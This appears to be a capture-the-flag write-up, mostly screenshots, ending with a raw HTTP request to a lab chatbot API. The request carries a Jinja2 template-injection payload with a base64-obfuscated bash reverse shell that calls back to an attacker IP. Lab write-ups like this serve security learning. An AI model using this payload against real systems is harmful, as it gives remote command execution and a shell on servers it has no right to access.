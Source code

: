 <img width="1056" height="77" alt="image" src="https://github.com/user-attachments/assets/d3e494bd-a46c-4efc-85fe-dce751070654" />

<img width="1869" height="847" alt="image" src="https://github.com/user-attachments/assets/0f7fd8e1-004f-432a-9c38-6c06493ffbe7" />

<img width="1094" height="242" alt="image" src="https://github.com/user-attachments/assets/d21a19b6-1b04-4938-9dd6-12130e096f94" />

<img width="835" height="272" alt="image" src="https://github.com/user-attachments/assets/8364c00c-1f4e-4f35-a7ff-34c54d5d39e2" />

<img width="839" height="254" alt="image" src="https://github.com/user-attachments/assets/642e2b6d-3fb4-40ce-bf50-4b7610903487" />

<img width="1056" height="673" alt="image" src="https://github.com/user-attachments/assets/4aaec736-4ad2-4578-a592-f1da89795e60" />

<img width="739" height="267" alt="image" src="https://github.com/user-attachments/assets/493f8b88-ab1d-4856-93ad-2439da00ee31" />

<img width="1038" height="166" alt="image" src="https://github.com/user-attachments/assets/9d92d98a-0994-4636-8eb5-23ac22604470" />

<img width="1031" height="292" alt="image" src="https://github.com/user-attachments/assets/d762a5a8-f118-4544-b09e-110532a81c0b" />

<img width="1064" height="425" alt="image" src="https://github.com/user-attachments/assets/0409fb2b-c9bc-4917-8c81-fd24b815f0ff" />

<img width="1097" height="261" alt="image" src="https://github.com/user-attachments/assets/d3c06e94-16c5-45ed-a3bc-034857376d9c" />

<img width="1055" height="444" alt="image" src="https://github.com/user-attachments/assets/f1037780-1a35-487d-9079-49f15f8e53f0" />

<img width="1038" height="146" alt="image" src="https://github.com/user-attachments/assets/23ebd7ea-353a-4d57-839f-22dde8cdcecd" />

<img width="852" height="253" alt="image" src="https://github.com/user-attachments/assets/439e2278-9c4d-451e-ad72-b3c0bb8956cb" />

<br>
<br>

<img width="838" height="278" alt="image" src="https://github.com/user-attachments/assets/1b5c1259-2376-4353-93bb-64810afc3190" />

<br>
<br>

<img width="834" height="392" alt="image" src="https://github.com/user-attachments/assets/6ef83656-4d2f-4e2f-9170-4d077f09b33a" />


```bash
POST /api/fetch_messeges_from_chatbot HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Imx1bHVAbWFpbC5jb20iLCJzdWJzY3JpcHRpb24iOiJhY3RpdmUiLCJpYXQiOjE3NTMzOTIyMzAsImV4cCI6MTc1MzM5NTgzMH0.XzNaRn9F-qgjPVWg9XuNvKaj4UVE-o1fiVZRO_iuNmA
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 155

{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNzcuMTMxLzQ0NDQgMD4mMQ== |base64 -d |bash').read() }}"}
```
